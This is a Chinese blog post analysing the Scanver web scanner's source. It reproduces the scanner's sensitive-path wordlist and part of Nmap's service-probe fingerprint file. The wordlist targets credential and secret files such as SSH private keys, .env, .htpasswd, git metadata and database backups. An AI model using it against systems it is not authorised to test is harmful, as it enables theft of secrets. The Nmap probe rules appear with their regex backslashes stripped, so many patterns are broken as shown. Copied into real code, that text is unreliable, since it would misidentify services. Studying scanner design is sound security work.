






# scanver源码分析

看到一份扫描器代码，https://github.com/shad0w008/Scanver,乍一看并不显眼，但是有许多东西值得学习下的，源码还没实际跑过，只是看了下它的代码，做点记录。 

##  内置字典 

它的data目录存放了一些指纹数据，用的Wappalyzer和gwhatweb，都是常见的开源库了，然后就是敏感路径的扫描规则 
``` 
/core
/crossdomain.xml
/debug.txt
/.env
/.bash_history
/.rediscli_history
/.bashrc
/.bash_profile
/.bash_logout
/.vimrc
/.DS_Store
/.history
/.htaccess
/htaccess.bak
/.htpasswd
/.htpasswd.bak
/htpasswd.bak
/nohup.out
/.mysql_history
/httpd.conf
/web.config
/server-status
/solr/
/examples/
/examples/servlets/servlet/SessionExample
/manager/html
/admin.jsp
/admin.php
/admin.do
/admin.html
/login.php
/login.do
/config/database.yml
/database.yml
/db.conf
/db.ini
/jmx-console/HtmlAdaptor
/cacti/
/zabbix/
/jenkins/script
/exit
/memadmin/index.php
/phpmyadmin/index.php
/phpMyAdmin/index.php
/_phpmyadmin/index.php
/pma/index.php
/ganglia/
/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/profile
/resin-doc/viewfile/?contextpath=/&servletpath=&file=index.jsp
/resin-admin/
/.svn/entries
/.git/config
/.git/index
/.git/HEAD
/.gitignore
/.ssh/known_hosts
/.ssh/id_rsa
/id_rsa
/.ssh/id_rsa.pub
/.ssh/id_dsa
/id_dsa
/.ssh/id_dsa.pub
/.ssh/authorized_keys
/readme
/README
/readme.md
/readme.html
/changelog.txt
/data.txt
/install
/install.txt
/INSTALL.TXT
/install.sh
/deploy.sh
/upload.sh
/setup.sh
/backup.sh
/rsync.sh
/sync.sh
/test.sh
/run.sh
/config.php
/config/config.php
/config.inc
/config.php.bak
/db.php.bak
/conf/config.ini
/config.ini
/config/config.ini
/configuration.ini
/configs/application.ini
/settings.ini
/application.ini
/conf.ini
/app.ini
/config.json
/application/configs/application.ini
/.idea/workspace.xml
/.idea/modules.xml
/a.out
/key
/keys
/key.txt
/temp.txt
/tmp.txt
/php.ini
/tmp
/sftp-config.json
/index.php.bak
/.index.php.swp
/index.cgi.bak
/config.inc.php.bak
/.config.inc.php.swp
/config/.config.php.swp
/.config.php.swp
/.settings.php.swp
/.database.php.swp
/.db.php.swp
/.mysql.php.swp
/cgi-bin
/app.cfg
/upload.do
/upload.jsp
/upload.php
/upfile.php
/upload.html
/temp.zip
/temp.rar
/temp.tar.gz
/temp.tgz
/temp.tar.bz2
/package.zip
/package.rar
/package.tar.gz
/package.tgz
/package.tar.bz2
/tmp.zip
/tmp.rar
/tmp.tar.gz
/tmp.tgz
/tmp.tar.bz2
/test.zip
/test.rar
/test.tar.gz
/test.tgz
/test.tar.bz2
/backup.zip
/backup.rar
/backup.tar.gz
/backup.tgz
/back.tar.bz2
/db.zip
/db.rar
/db.tar.gz
/db.tgz
/db.tar.bz2
/db.inc
/db.sqlite
/db.sql.gz
/dump.sql.gz
/database.sql.gz
/backup.sql.gz
/data.sql.gz
/data.zip
/data.rar
/data.tar.gz
/data.tgz
/data.tar.bz2
/database.zip
/database.rar
/database.tar.gz
/database.tgz
/database.tar.bz2
/ftp.zip
/ftp.rar
/ftp.tar.gz
/ftp.tgz
/ftp.tar.bz2
/web.zip
/web.rar
/web.tar.gz
/web.tgz
/web.tar.bz2
/www.zip
/www.rar
/www.tar.gz
/www.tgz
/www.tar.bz2
/wwwroot.zip
/wwwroot.rar
/wwwroot.tar.gz
/wwwroot.tgz
/wwwroot.tar.bz2
/output.tar.gz
/admin.zip
/admin.rar
/admin.tar.gz
/admin.tgz
/admin.tar.bz2
/upload.zip
/upload.rar
/upload.tar.gz
/upload.tgz
/upload.tar.bz2
/website.zip
/website.rar
/website.tar.gz
/website.tgz
/website.tar.bz2
/package.zip
/package.rar
/package.tar.gz
/package.tgz
/package.tar.bz2
/sql.zip
/sql.rar
/sql.tar.gz
/sql.tgz
/sql.tar.bz2
/sql.7z
/data.sql
/database.sql
/db.sql
/test.sql
/admin.sql
/backup.sql
/dump.sql
/index.zip
/index.7z
/index.bak
/index.rar
/index.tar.tz
/index.tar.bz2
/index.tar.gz
/old.zip
/old.rar
/old.tar.gz
/old.tar.bz2
/old.tgz
/old.7z
/1.tar.gz
/a.tar.gz
/x.tar.gz
/o.tar.gz
/conf/conf.zip
/conf.tar.gz
/config.tar.gz
/proxy.pac
/server.cfg
/deploy.tar.gz
/build.tar.gz
/install.tar.gz
/site.tar.gz
/webroot.zip
/tools.tar.gz
/webserver.tar.gz
/htdocs.tar.gz
/src.tar.gz
/code.tar.gz
/phpinfo.php
/info.php
/pi.php
/i.php
/php.php
/mysql.php
/sql.php
/shell.php
/apc.php
/test.php
/test2.php
/test
/test.html
/test2.html
/test.txt
/test2.txt
/debug.php
/a.php
/b.php
/t.php
/x.php
/dump/b.php
/1.php
/WEB-INF/web.xml
/WEB-INF/web.xml.bak
/WEB-INF/applicationContext.xml
/WEB-INF/applicationContext-slave.xml
/WEB-INF/config.xml
/WEB-INF/spring.xml
/WEB-INF/struts-config.xml
/WEB-INF/struts-front-config.xml
/WEB-INF/struts/struts-config.xml
/WEB-INF/classes/spring.xml
/WEB-INF/classes/struts.xml
/WEB-INF/classes/struts_manager.xml
/WEB-INF/classes/conf/datasource.xml
/WEB-INF/classes/data.xml
/WEB-INF/classes/config/applicationContext.xml
/WEB-INF/classes/applicationContext.xml
/WEB-INF/classes/conf/spring/applicationContext-datasource.xml
/WEB-INF/config/db/dataSource.xml
/WEB-INF/spring-cfg/applicationContext.xml
/WEB-INF/dwr.xml
/WEB-INF/classes/hibernate.cfg.xml
/WEB-INF/classes/rabbitmq.xml
/WEB-INF/conf/activemq.xml
/server.xml
/config/database.yml
/configprops
/WEB-INF/database.properties
/WEB-INF/web.properties
/WEB-INF/log4j.properties
/WEB-INF/classes/dataBase.properties
/WEB-INF/classes/application.properties
/WEB-INF/classes/jdbc.properties
/WEB-INF/classes/db.properties
/WEB-INF/classes/conf/jdbc.properties
/WEB-INF/classes/security.properties
/WEB-INF/conf/database_config.properties
/WEB-INF/config/dbconfig
/fckeditor/_samples/default.html
/ckeditor/samples/
/editor/ckeditor/samples/
/ckeditor/samples/sample_posteddata.php
/editor/ckeditor/samples/sample_posteddata.php
/fck/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php
/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellcheckder.php
/ueditor/ueditor.config.js
/ueditor/php/getRemoteImage.php
/access.log
/www.log
/error.log
/log.log
/sql.log
/errors.log
/debug.log
/db.log
/install.log
/server.log
/sqlnet.log
/WS_FTP.log
/database.log
/data.log
/app.log
/log.tar.gz
/log.rar
/log.zip
/log.tgz
/log.tar.bz2
/log.7z
/ews/
/env
/.env
/.ssh/

```

也是很常用的规则了，值得一提的是nmap的指纹数据，之前没接触过，这个指纹就很厉害了,以后写的扫描器可以直接拿来用。 
``` 
# Nmap service detection probe list -*- mode: fundamental; -*-
# $Id: nmap-service-probes,v 1.46 2005/01/31 20:40:45 fyodor Exp $ 
#
# This is a database of custom probes and expected responses that the
# Nmap Security Scanner ( http://www.insecure.org/nmap/ ) uses to
# identify what services (eg http, smtp, dns, etc.) are listening on
# open ports.  Contributions to this database are welcome.  We hope to
# create an automated submission system (as with OS fingerprints), but
# for now you can email fyodor any new probes you develop so that he
# can include them in the main Nmap distributon.  By sending new
# probe/matches to Fyodor or one the insecure.org development mailing
# lists, it is assumed that you are transfering any and all copyright
# interest in the data to Fyodor so that he can modify it, relicense
# it, incorporate it into programs, etc. This is important because the
# inability to relicense code has caused devastating problems for
# other Free Software projects (such as KDE and NASM).  Nmap will
# always be available Open Source.  If you wish to specify special
# license conditions of your contributions, just say so when you send
# them.
#
# This collection of probe data is (C) 2003 by Insecure.Com LLC It is
# available for free use by open source software under the terms of
# the GNU General Public License.  We also license the data to
# selected commercial/proprietary vendors under less restrictive
# terms.  Contact sales@insecure.com for more information.
#
# For details on how Nmap version detection works, why it was added,
# the grammar of this file, and how to detect and contribute new
# services, see our paper at
# http://www.insecure.org/nmap/versionscan.html .
# This is the NULL probe that just compares any banners given to us
##############################NEXT PROBE##############################
Probe TCP NULL q||
# Wait for at least 5 seconds for data.  Otherwise an Nmap default is used.
totalwaitms 5000
match acap m|^* ACAP (IMPLEMENTATION "CommuniGate Pro ACAP (d[-.w]+)") | v/CommuniGate Pro ACAP server//for mail client preference sharing/
match aim m|^*x01..x04x01$|s v/Pyboticide AIM chat filter/// 
# AMANDA index server 2.4.2p2 on Linux 2.4
match amanda m|^220 [-.w]+ AMANDA index server ((d[-.w ]+)) ready.rn| v/Amanda backup system index server/$1//
# arkstats (part of arkeia-light 5.1.12 Backup server) on Linux 2.4.20
match arkstats m|^`x03x1810x000x000x00852224| v/Arkeia arkstats///
match backdoorjeam m|^220 jeem.mail.pv ESMTPrn| v/Jeem backdoor//**BACKDOOR**/
# Bittorrent Client 3.2.1b on Linux 2.4.X
match bittorent m|^x13BitTorrent protocol| v/Bittorrent P2P client///
# BMC Software Patrol Agent 3.45
match bmc-softwarepatrol m|^x17ix02x03..x05x02x04x02x04x03..x03x04x01x01| v/BMC Software Patrol Agent///
match chargen m|^!"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghrn"#$%&'()*+,-./0123456789:;<=>?@ABCDEF| v/Linux chargen///
# Redhat 7.2, xinetd 2.3.7 chargen
match chargen m|^*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrn+,-./| v/xinetd chargen///
# Sun Solaris 9; Windows
match chargen m|^ !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_|
# Mandrake Linux 9.2, xinetd 2.3.11 chargen
match chargen m|NOPQRSTUVWXYZ[\]^_`abcdefghijklm|
# Citrix, Metaframe XP on Windows
match citrix-ica m|^x7fx7fICAx7fx7fICA| v/Citrix Metaframe XP ICA///
match concertosendlog m|^Concerto SoftwarernrnEnsemblePro SendLog Server - Version (d[-.w]+)rnrnEnter Telnet Passwordrn#> | v/Concerto Software EnsemblePro CRM software SendLog Server/$1//
match concertotimesync m|^Concerto SoftwarernrnContactPro TimeSync Server - Version (d[-.w]+)rnrnEnter Telnet Passwordrn#> | v/Concerto Software EnsemblePro CRM software TimeSync Server/$1//
match cvspserver m|^no repository configured in /| v/CVS pserver//broken/
match cvspserver m|^/usr/sbin/cvs-pserver: line d+: .*cvs: No such file or directoryn| v/CVS pserver//broken/
match cvsup m|^OK d+ d+ ([-.w]+) CVSup server readyn| v/CVSup/$1//
match damewaremr m|^0x11........r@x01x01.$|s v/DameWare Mini Remote Control//Windows/
# Linux
match daytime m|^[0-3]d [A-Z][A-Z][A-Z] 20dd dd:dd:dd S+rn|
# OpenBSD 3.2
match daytime m|^[A-Z][a-z]{2} [A-Z][a-z]{2} +d{1,2} +dd:dd:dd 20ddrn|
# Solaris 8,9
match daytime m|^[A-Z][a-z]{2} [A-Z][a-z]{2} +d{1,2} +dd:dd:dd 20ddnr| v/Sun Solaris daytime///
# Windows daytime
match daytime m|^d+:dd:dd [AP]M d+/d+/200dn$| v/Microsoft Windows USA daytime///
# Windows daytime - UK english I think (no AM/PM)
match daytime m|^d{1,2}:d{1,2}:d{1,2} d{1,2}/d{1,2}/200dn$| v/Microsoft Windows daytime///
# Windows International daytime
match daytime m|^dd:dd:dd dd.dd.200dn$| v/Microsoft Windows International daytime///
# New Zealand format daytime - Windows 2000
match daytime m|^[01]d:dd:dd [AP]M [0-3]d/[01]d/0dn$| v/Microsoft Windows daytime//New Zealand style/
# HP-UX B.11.00 A inetd daytime
match daytime m|^[A-Z][a-z]{2} [A-Z][a-z]{2} +d{1,2} dd:dd:dd [A-Z]+ 200drn$| v/HP-UX daytime///
# Tardis 2000 v1.4 on NT
match daytime m|^^[A-Z][a-z]{2} [A-Z][a-z]{2} +d{1,2} dd:dd:dd 200d $| v/Tardis 2000 daytime///
match dict m|^530 access deniedrn$| v/dictd//access denied/
match dict m|^220 [-.w]+ dictd ([-.w/]+) on ([-.+ w]+) <auth.mime>| v/dictd/$1/on $2/
match directconnect m/^$MyNick ([-.w]+)|$Lock/ v/Direct Connect P2P//User: $1/
match eggdrop m=^rnrn([-`|.w]+)  (Eggdrop v(d[-.w]+) +([cC]) *1997.*rnrn= v/Eggdrop irc bot console/$2/botname: $1/
# This fallback is because many people customize their eggdrop
# banners.  This rule should always be well below the detailed rule
# above.
match eggdrop m|Copyright (C) 1997 Robey Pointerrn.*Eggheads| v/Eggdrop IRC bot console///
match finger m|rn {4}Line {5,8}User {6,8}Host(s) {13,18}Idle +Locationrn| v/Cisco fingerd///
match ftp m|^220 [-/.+w]+ FTP server (SecureTransport (d[-.w]+)) ready.rn| v/Tumbleweed SecureTransport ftpd/$1//
match ftp m|^220 3Com 3CDaemon FTP Server Version (d[-.w]+)rn| v/3Com 3CDaemon ftpd/$1//
# GuildFTP 0.999.9 on Windows
match ftp m|^220-GuildFTPd FTP Server (c) 1997-2002rn220-Version (d[-.w]+)rn220 Please enter your name:rn| v/Guild ftpd/$1/Windows/
# Medusa Async V1.21 [experimental] on Linux 2.4
match ftp m|^220 [-/.+w]+ FTP server (Medusa Async V(d[^)]+)) ready.rn| v/Medusa Async ftpd/$1//
match ftp m|^220 [-/.+w]+((d[-.w]+)) FTP server (EPSON ([^)]+)) ready.rn| v/Epson printer ftpd/$1/Epson $2/
match ftp m|^220 [-/.+w]+ IBM TCP/IP for OS/2 - FTP Server ver d+:d+:d+ on [A-Z]| v|IBM OS/2 ftpd|||
match ftp m|^220 [-/.+w]+ Lexmark ([-/.+w]+) FTP Server (d[-.w]+) ready.rn| v/Lexmark printerftpd/$2/Lexmark $1/
match ftp m|^220 Internet Rex (d[-.w ]+) (([-/.+w]+)) FTP server awaiting your command.rn| v/Internet Rex ftpd/$1/$2/
match ftp m|^220 [-.+w]+ FTP server (Version (d[-.w]+)(([^)]+)) [A-Z][a-z][a-z] [A-Z].*200d) ready.rn| v/HP-UX ftpd/$1/$2/
match ftp m|^530 Connection refused, unknown IP address.rn$| v/Microsoft IIS ftpd//IP address rejected/
match ftp m|^220 PizzaSwitch FTP server readyrn| v/Xylan PizzaSwitch ftpd///
match ftp m|^220 [-.+w]+ IronPort FTP server (V(d[-.w]+)) ready.rn| v/IronPort mail appliance ftpd///
match ftp m|^220 WFTPD (d[-.w]+) service (by Texas Imperial Software) ready for new userrn| v/Texas Imperial Software WFTPD/$1//
match ftp m|^220 [-.+w]+ FTP server (Version (MICRO-[-.w:#+ ]+)) ready.rn| v/Bay Networks MicroAnnex terminal server ftpd/$1//
match ftp m|^220 [-.+w]+ FTP server (Digital UNIX Version (d[-.w]+)) ready.rn| v/Digital UNIX ftpd/$1//
match ftp m|^220 [-.+w]+ FTP server (Version [d.]++Heimdal (d[-+.w ]+)) ready.rn|  v/Heimdal Kerberized ftpd/$1//
match ftp m|^500 OOPS: (could not bind listening IPv4 socket)rn$| v/vsftpd//broken: $1/
match ftp m|^500 00PS: vsftpd: (.*)rn| v/vsftpd//broken: $1/
match ftp m|^220-QTCP at [-.w]+rn220| v|IBM OS/400 FTPd|||
match ftp m|^220-FileZilla Server version (d[-.w ]+)rn| v/FileZilla ftpd/$1//
# Netgear RP114 switch with integrated ftp server
# Netgear RP114
match ftp m|^220 ([-w]+)? FTP version 1.0 ready at | v/Netgear broadband router ftpd/1.0//
match ftp m|^220 [-.w]+ FTP server (GNU inetutils (d[-.w ]+)) ready.rn| v/GNU Inetutils FTPd/$1//
match ftp m|^220 .* (glftpd (d[-.0-9a-zA-Z]+)_(w+)(+TLS)?) ready.rn| v/glFtpD/$1/platform: $2/
match ftp m|^220 [-.w]+ FTP server (FirstClass v(d[-.w]+)) ready.rn| v/FirstClass FTP server/$1//
match ftp m|^220 [-.w]+ FTP server (Compaq Tru64 UNIX Version (d[-.w]+)) ready.rn| v/Compaq Tru64 ftp server/$1//
match ftp m|^220 AXIS ([-.w]+) FTP Network Print Server V(d[-.w]+) [A-Z][a-z]| v/Axis network print server ftpd/$2/Model $1/
match ftp m|^220-Cerberus FTP Server Personal Editionrn220-UNREGISTEREDrn| v/Cerberus FTP Server//Personal Edition; Unregistered/
match ftp m|^220-GuildFTPd FTP Server (c) 2001rn220-Version (d[-.w]+)rn220 Please enter your name:rn| v/GuildFTPd/$1//
match ftp m|^220 FTP print service:V-(d[-.w]+)/Use the network password for the ID if updating.rn| v/Brother printer ftpd/$1//
match ftp m|^220- APC FTP server ready.rn220 rn$| v|APC ftp server||UPS/Power device|
match ftp m|^220 [-w]+ FTP server (Version (d.[.d]+) ([A-Z][a-z]{2} [A-Z][a-z]{2} [0-9]+ [0-9:]+ .* [21][0-9]+)) ready.rn| v/HP-UX 10.x ftpd/$1//
match ftp m|^220 [-w]+ FTP server (Version (d[-.w]+) [A-Z][a-z]{2} [A-Z][a-z]{2} .*) ready.rn| v/AIX ftpd/$1//
match ftp m|^220[- ]Roxen FTP server running on Roxen (d[-.w]+)/Pike (d[-.w]+)rn| v/Roxen ftp server/$1/Pike $2/
# Debian packaged oftpd 0.3.6-51 on Linux 2.6.0-test4 Debian
match ftp m|^220 Service ready for new user.rn| v/oftpd///
# ProFTPd 1.2.5
match ftp m|^220  Server (ProFTPD) [[-.w]+]rn| v/ProFTPd///
# Mac OS X Client 10.2.6 built-in ftpd
match ftp m|^220[ -].*FTP server (lukemftpd (d[-. w]+)) ready.rn|s v/LukemFTPD/$1/Mac OS X uses lukemftpd derivative/
match ftp m/^220.*Microsoft FTP Service (Version (d[^)]+)/ v/Microsoft ftpd/$1//
# This lame version doesn't give a version number
# Windows 2003
match ftp m/^220[ -]Microsoft FTP Servicern/ v/Microsoft ftpd///
match ftp m/^220 Serv-U FTP Server v(dS+) for WinSock ready/ v/Serv-U ftpd/$1//
match ftp m/^220 Serv-U FTP-Server v(dS+) for WinSock ready/ v/Serv-U ftpd/$1//
match ftp m/^220-Sambar FTP Server Version (dS+)x0dx0a/ v/Sambar ftpd/$1//
# Sambar server V5.3 on Windows NT
match ftp m|^220-FTP Server readyrn220-Use USER user@host for native FTP proxyrn220 Your FTP Session will expire after 300 seconds of inactivity.rn|  v/Sambar ftpd///
match ftp m/^220 JD FTP Server Ready/ v/HP JetDirect ftpd///
match ftp m/^220.*Check Point FireWall-1 Secure FTP server running on/s v/Check Point Firewall-1 ftpd///
match ftp m/^220[- ].*FTP server (Version (wu-[-.w]+)/s v/WU-FTPD/$1//
match ftp m|^220-rn220 [-.w]+ FTP server (Version ([-.+w()]+)) ready.rn$| v/WU-FTPD/$1//
match ftp m|^220 [-.w]+ FTP server (Version ([-.+w()]+)) ready.rn$| v/WU-FTPD/$1//
match ftp m/^220 ProFTPD (dS+) Server/ v/ProFTPD/$1//
match ftp m/^220.*ProFTP[dD].*Server ready/ v/ProFTPD///
match ftp m/^220.*NcFTPd Server / v/NcFTPd///
match ftp m/^220.*FTP server (SunOS 5.([789])) ready/ v/Sun Solaris $1 ftpd///
match ftp m/^220.*FTP server (SunOS (S+)) ready/ v/Sun SunOS ftpd/$1//
